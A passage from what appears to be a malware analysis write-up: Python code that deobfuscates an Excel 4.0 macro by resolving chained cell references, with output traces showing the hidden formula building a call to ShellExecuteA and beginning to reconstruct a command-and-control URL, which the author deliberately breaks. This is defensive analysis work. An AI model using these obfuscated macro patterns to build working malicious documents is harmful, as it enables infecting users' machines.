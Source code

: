 Finally, we loop through every key we populated and see how much it can merge together.  Some cells are just single characters that are used to concatenate text together and some cells make 10+ cell references.

``` python
# Run through each key and attempt to reconstruct
for key in excel_data:
    print("Initial: {}".format(excel_data[key]))

    new_val = reconstruct(excel_data[key])
    new_string = new_val

    while new_val:
        print(new_val)
        new_string = new_val
        new_val = reconstruct(new_string)

    if (new_string is not None) and (new_string != '(var-cell)'):
        final_strings.append(new_string)

    print("Final: {}".format(new_string))
    print("********************************************************")
```

### Results
The resulting output is very large so an couple examples of where the value came out of this are:

**Showing it resolve a Win32 function**
```
Initial: =RUN($II$26959)
=RUN(EsNDtISBBnaCXk=$EI$48049&$U$22638&$EO$25738&$FR$34525&$AP$37942&$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=S$U$22638&$EO$25738&$FR$34525&$AP$37942&$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=Sh$EO$25738&$FR$34525&$AP$37942&$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=She$FR$34525&$AP$37942&$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=Shel$AP$37942&$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=Shell$B$6338&$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellE$CQ$36635&$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellEx$DS$2454&$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExe$AW$53450&$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExec$DA$9220&$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExecu$FX$55530&$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExecut$DO$26222&$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExecute$CV$8941
=RUN(EsNDtISBBnaCXk=ShellExecuteA
Final: =RUN(EsNDtISBBnaCXk=ShellExecuteA
```

**Showing it resolve the C&C URL**<br />
*NOTE: I have intentionally broken the link text formulated below.*
``` text
Initial: EsNDtISBBnaCXk=$W$27806&$DB$48425&$CG$29888&$GH$57090&$EK$3388&$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=h$DB$48425&$CG$29888&$GH$57090&$EK$3388&$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
```